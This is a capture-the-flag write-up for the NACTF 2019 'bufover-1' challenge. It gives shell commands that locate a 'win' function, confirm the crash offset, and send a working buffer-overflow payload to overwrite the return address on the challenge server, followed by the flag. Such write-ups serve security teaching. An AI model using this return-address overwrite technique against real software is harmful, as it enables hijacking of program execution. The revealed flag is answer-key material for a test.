 #### Challenge:

The close cousin of a website for "Question marked as duplicate" - part 2!

Can you redirect code execution and get the flag? `nc shell.2019.nactf.com 31462` [bufover-1.c](./bufover-1.c ":ignore") [bufover-1](./bufover-1 ":ignore")

---

#### Solution:

```bash
readelf -s ./bufover-1 | grep win
#    59: 080491b2   125 FUNC    GLOBAL DEFAULT   13 win
python -c 'print "A"*29' | ./bufover-1
dmesg | tail
#[20082.062348] bufover-1[16409]: segfault at 8040041 ip 0000000008040041 sp 00000000ff9b08e0 error 14 in bufover-1[8048000+3000]
python -c 'import struct; print "A"*28 + struct.pack("<I",0x080491b2 )' | nc shell.2019.nactf.com 31462

```

---

<details><summary>FLAG:</summary>

```
nactf{pwn_31p_0n_r3t_iNylg281}
```

</details>

